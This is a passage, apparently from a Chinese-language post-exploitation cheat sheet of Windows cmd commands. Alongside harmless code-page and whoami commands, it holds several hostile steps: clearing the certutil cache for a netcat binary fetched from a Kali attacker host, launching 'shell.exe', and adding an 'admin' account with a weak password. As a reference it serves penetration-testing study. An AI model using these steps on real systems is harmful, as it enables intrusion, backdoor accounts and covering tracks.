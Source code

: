 删除 certutil 下载记录

```cmd
C:\Users\Administrator> certutil -urlcache -split -f http://kali.local/upload/nc.exe delete
```

### 6.4 程序

运行程序

```cmd
C:\Users\Administrator> start shell.exe
```

### 6.5 修改编码

查看当前编码

```cmd
C:\Users\Administrator> chcp
```

修改编码为 UTF-8

```cmd
C:\Users\Administrator> chcp 65001
```

编码列表

```
65001	UTF-8		Unicode
936		GB2312		简体中文
936		GBK			简体中文，包括更多的字符
950		Big5		繁体中文
437		MS-DOS		美式英语
932		Shift-JIS	日语
949		EUC-KR		韩语
```

### 6.6 用户管理

查看用户名

```cmd
C:\Users\Administrator> whoami
```

```cmd
whoami
a-win10-1903\administrator
```

添加用户

```cmd
C:\Users\Administrator> net user admin admin /add
```

```cmd
net user admin admin /add
The command completed successfully.
```
